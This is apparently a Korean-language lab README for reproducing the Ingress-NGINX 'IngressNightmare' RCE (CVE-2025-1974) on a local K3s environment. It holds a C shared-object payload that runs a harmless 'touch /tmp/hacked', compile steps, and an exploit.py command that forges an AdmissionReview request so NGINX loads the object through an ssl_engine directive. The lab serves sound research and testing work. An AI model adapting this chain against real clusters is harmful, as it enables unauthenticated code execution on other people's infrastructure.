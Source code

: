 # Kubernetes Ingress-NGINX 인증되지 않은 원격 코드 실행(CVE-2025-1974)

Ingress-NGINX: NGINX를 역방향 프록시 및 로드 밸런서로 사용하는 Kubernetes 용 인그레스 컨트롤러

"IngressNightmare" 취약점(CVE-2025-1974)은 수신되는 Ingree 리소스의 유효성을 검사하는 쿠버네티스의 핵심 보안 메커니즘인 Ingress-NGINX Admission Controller 의 치명적인 결함에서 비롯된다.

이 컨트롤러는 인증 없이도 네트워크에 노출되어 공격자가 악성 AdmissionReview 요청을 조작하고 Ingress 리소스에 무단 구성을 삽입할 수 있도록 한다.

다른 취약점(CVE-2025-24514, CVE-2024-1097 또는 CVE-2025-1098)과 연계될 경우 원격 코드 실행으로 이어질 수 있다.

일부 악용 가능한 체인은 다음과 같다.

CVE-2025-1974+CVE-2025-24514: <kbd>auth-url</kbd> 주석 주입을 통한 RCE

CVE-2025-1974+CVE-2025-1097: <kbd>auth-tls-match-cn</kbd> 주석을 통한 RCE

CVE-2025-1974+CVE-2025-1098: 이미지 UID 남용을 통한 RCE

## 환경 설정
취약점을 시뮬레이션 하기 위해 단순성을 위해 K3s 기반 Kubernetes 환경이 사용된다

```
docker compose up -d
```

쿠버네티스 API가 준비되고 Ingress-nginx 컨트롤러가 시작될 때까지 기다린다.
환경이 시작되면, Ingress-NGINX는 30080번과 30443번 포트(TLS)에서 수신 대기하고, Ingress-NGINX Admission Controller는 30443번 포트이다.

## 취약성 재생산
<kbd>.so</kbd> 먼저, 컨테이너의 아키텍처와 일치하는 공유 객체( ) 페이로드를 컴파일해야 한다.
```
#include<stdio.h>
#include<stdlib.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    system("touch /tmp/hacked");
}
```

1. 소스 코드 컴파일

```
gcc -shared -fPIC -o shell.so shell.c
```

2. 위의 소스 코드를 적절한 환경으로 컴파일한 후 exploit.py를 사용하여 취약점을 악용

```
python exploit.py -a https://localhost:30443/networking/v1/ingresses -i http://localhost:30080/fake/addr -s shell.so
```
<kbd>AdmissionReview</kbd> exploit은 NGINX가 악성 동적 공유 객체를 로드하도록 강제하는 지시어 주입 요청을 위조하여 작동한다.

exploit이 성공하면 ingress-nginx 컨테이너 내부에 파일이 <kbd>ssl_engine</kbd> 생성되는 것을 확인할 수 있다.








